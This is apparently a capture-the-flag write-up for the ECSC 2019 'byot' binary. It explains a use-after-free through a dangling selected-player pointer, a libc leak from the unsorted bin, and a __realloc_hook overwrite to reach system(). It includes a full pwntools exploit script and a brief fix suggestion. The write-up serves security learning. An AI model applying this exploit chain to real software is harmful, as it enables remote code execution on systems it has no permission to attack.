

## Introduction

In this writeup, we'll explore:

- Techniques for leaking libc addresses from freed chunks
- Leveraging `__realloc_hook` for Remote Code Execution (RCE)

Let's dive into the exploitation!

Before delving into deep analysis, let's examine the provided files:

- `byot` is an ELF file without symbols stripped, dynamically linked.
- `libc-2.24.so` and `ld-2.24.so` are the libc and linker files to be used when executing `byot`.

Since I'm not using libc 2.24 on my computer (and neither should you), the initial step is to create a version of `byot` that utilizes the provided libc and linker, rather than our system versions. To assist us in this process, we'll utilize the `pwninit` tool.

```bash
$ pwninit --bin byot --ld ld-2.24.so --libc libc-2.24.so
bin: byot
libc: libc-2.24.so
ld: ld-2.24.so

warning: failed detecting libc version (is the libc an Ubuntu glibc?): failed finding version string
symlinking libc.so.6 -> libc-2.24.so
copying byot to byot_patched
running patchelf on byot_patched
```

Furthermore, we will just check the enabled securities:

```bash
$ checksec byot_patched
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

Hmmm...all securities are activated.

The very last step before analysis: use the program as normal user. It appears to allow us to create an ecsc team by providing the score in pwn, crypto, web and steg of a named user. I tried some basic techniques ; transforming me into a fuzzer ! No one gave me results.

```bash
$ ./byot
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
```

We are now ready to analyze byot binary.

## Find some bugs

I'm a huge fan of Ghidra as well, so my initial instinct is to utilize Ghidra to analyze **byot**. Since the binary isn't stripped, all symbols are present, making it a bit easier to reverse engineer.

Here's a summary of my initial analysis:

- The `main` function handles menu display and dispatches to other functions based on user choice.
- Player data is stored in an array of size 10.
- There's a global variable `selected_player`, pointing to a `player` struct, which is utilized by the display and edit player functions.

After analyzing the `print_player` function, I've identified the following structure for the `player` struct:

```c
struct struct player {
    uint pwn;
    uint crypto;
    uint web;
    uint steg;
    char *name;
};
```

During player initialization, two areas are allocated via `malloc`:

- The first area, sized 0x20, is for the player struct itself.
- The second area, sized between 0x1 and 0x81, contains the `player->name` field.

During player destruction, the following steps are taken:

```c
local_10 = players[index];
players[index] = (struct player *)0x0;
free(local_10->name);
free(local_10);
```

I was terribly sad when I realized that `players[index]` is set to NULL during deallocation. It seemed like there was no possibility to perform a use-after-free... or was there?

Despite the seemingly proper deallocation, we must consider the `selected_player` global variable. As observed in the previous snippet, this variable isn't set to NULL if it's pointing to the deallocated player. Therefore, we have two potential actions after deallocation:

- Read from the deallocated chunk using the `show_player` function.
- Write to the deallocated chunk using the `edit_player` function.

Surprise! I'm Santa Claus, and I'm granting you read/write primitives! And because you've been nice, I also have a size-controlled malloc for you!

To summarize our primitives:

- We can read from freed chunks.
- We can write to freed chunks.
- We can allocate chunks sized between 0x1 and 0x81.

## Is there a way to leak ?

Since we can read from freed chunks larger than 0x80, leaking libc addresses becomes relatively straightforward. Chunks larger than 0x80 are no longer stored in fastbins (which are single linked lists), but in the unsorted bin, which is a doubly linked list. This is significant because the first element of this list is contained in the libc memory space at a fixed offset, and its address will be set in the first freed chunk as the backward element.


Let's developp the program to leak:

```python
def leak_libc(r: process):
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    return int.from_bytes(show_player(r)[0][1:7], "little") - 0x399b58
```

As you can observe, we're allocating two players. The first player has a name sized 0x81 (the program adds one to the size of the name when calling malloc), while the second player's details are not significant; it's merely present to prevent libc from consolidating our freed chunk with the top chunk. 

Next, we select the first allocated player, causing `selected_player` to point to it, and then free it. Finally, we read the player. By parsing the name of the player, we can retrieve a libc address that is 0x399b58 bytes away from the beginning.

## Is there a way to RCE ?

We have a libc leak to defeat the ASLR...But the exploitation is not achieved. I did many tests to leverage the write primitive...but I had some limitations to bypass. The following code is the simplified one of `set_name`, the promising function to achieve an arbitrary write:

```c
void set_name(void) {
  size_t cur_name_len;
  size_t new_name_len;
  char *new_name;
  char name [136];

  read_input(name,0x80);
  cur_name_len = strlen(selected_player->name);
  new_name_len = strlen(name);
  if (cur_name_len < new_name_len) {
    new_name = (char *)realloc(selected_player->name,new_name_len + 1);
    if (new_name == (char *)0x0) {
      puts("[-] Allocation error: realloc new name");
    }
    else {
      selected_player->name = new_name;
      strcpy(selected_player->name,name);
    }
  }
  else {
    strcpy(selected_player->name,name);
  }
}
```

So, when we want to write to `selected_player->name`, there are two main scenarios:

- If the size of the new name is not larger, `strcpy` is directly called on the `selected_player->name` pointer.
- If the size of the new name is larger, `realloc` is invoked. In this case, `selected_player->name` must be either NULL (not useful to us, as `realloc` acts like `malloc` in this case) or a chunk of data allocated by `malloc`.

Bypassing the limitations when the size of the new name is larger proved to be too challenging for me. Consequently, I decided to search for a location in the libc where I could overwrite some bytes to achieve Remote Code Execution (RCE). I discovered a special variable called `__free_hook`, which can contain a pointer to a function to be called when `free` is invoked. However, by default, `__free_hook` is NULL, leading to the problematic scenario for our write operation.

After several unsuccessful attempts, I stumbled upon [other hooks](https://linux.die.net/man/3/__free_hook) and found `__realloc_hook`. Unlike `__free_hook`, `__realloc_hook` is not NULL by default, and the first value in a `realloc` operation is a pointer. If I could make `__realloc_hook` point to `system`, I could execute commands by following this chain:

- Allocate a player with a name containing the command to execute.
- Select the player.
- Modify its name with a longer string than the current name to force the program to use `realloc`, which now points to `system`.

```c
new_name = (char *)realloc(selected_player->name,new_name_len + 1);
```

Ok, we have the leak, we have the end of the chain, now how to modify `__realloc_hook`? The chain is the following:

```python
def write_realloc_hook(r: process, libc_address):
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    remove_player(r, 1)
    realloc_hook_address = (libc_address + 0x399ae8).to_bytes(6, "little")
    create_player(r, b"a"*0x10 + realloc_hook_address, 0, 0, 0, 0)
    system = (libc_address + 0x3f480).to_bytes(6, "little")
    set_name_player(r, system)
```

Ok ok ok...I know, the code is not giving you the subtilities of the actions, so the following schemas will let you understand.


The final script is the following:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("byot_patched")
libc = ELF("libc-2.24.so")
ld = ELF("ld-2.24.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("localhost", 4000)

    return r

def show_player(r: process):
    r.sendlineafter("enter your choice:", b"2")
    r.recvuntil("Name:")
    name   = r.recvuntil("- Pwn:")
    pwn    = r.recvuntil("- Crypto:")
    crypto = r.recvuntil("- Web:")
    web    = r.recvuntil("- Stegoguess:")
    steg   = r.recvuntil("-===")
    return (
        name, pwn, crypto, web, steg
    )

def select_player(r: process, index):
    r.sendlineafter("enter your choice:", b"3")
    r.sendlineafter("like to select:", str(index).encode())

def create_player(r: process, name, pwn_score, crypto_score, web_score, guess_score):
    r.sendlineafter("enter your choice:", b"4")
    r.sendlineafter("player name:", name)
    r.sendlineafter("skillz [1-999]:", str(pwn_score).encode())
    r.sendlineafter("skillz [1-999]:", str(crypto_score).encode())
    r.sendlineafter("skillz [1-999]:", str(web_score).encode())
    r.sendlineafter("skillz [1-999]:", str(guess_score).encode())

def remove_player(r: process, index):
    r.sendlineafter("enter your choice:", b"5")
    r.sendlineafter("would like to remove:", str(index).encode())

def remove_all_players(r: process):
    for x in range(10):
        remove_player(r, x)

def set_name_player(r: process, name):
    r.sendlineafter("enter your choice:", b"6")
    r.sendlineafter("enter your choice:", b"1")
    r.sendlineafter("selected player:", name)
    log.info(r.recvuntil("enter your choice:"))
    r.sendline(b"6")

def leak_libc(r: process):
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    return int.from_bytes(show_player(r)[0][1:7], "little") - 0x399b58

def write_realloc_hook(r: process, libc_address):
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    remove_player(r, 1)
    realloc_hook_address = (libc_address + 0x399ae8).to_bytes(6, "little")
    create_player(r, b"a"*0x10 + realloc_hook_address, 0, 0, 0, 0)
    system = (libc_address + 0x3f480).to_bytes(6, "little")
    set_name_player(r, system)

def trigger_realloc_hook(r: process, command):
    create_player(r, command, 0, 0, 0, 0)
    select_player(r, 0)
    set_name_player(r, b"a"*(len(command)*2))

def main():
    r = conn()

    libc_base = leak_libc(r)
    log.info(f"Libc address leaked: {hex(libc_base)}")

    remove_all_players(r)
    write_realloc_hook(r, libc_base)
    log.info(f"Realloc hook overwrited")
    remove_all_players(r)
    trigger_realloc_hook(r, b"cat flag.txt")

    r.interactive()

if __name__ == "__main__":
    main()
```

## Remediations

Pwn is cool, but now, how to repair this program. I think, the main fix would be to set `selected_player` to NULL if the `created_player` function is called on it. With that, the use-after-free is avoided.
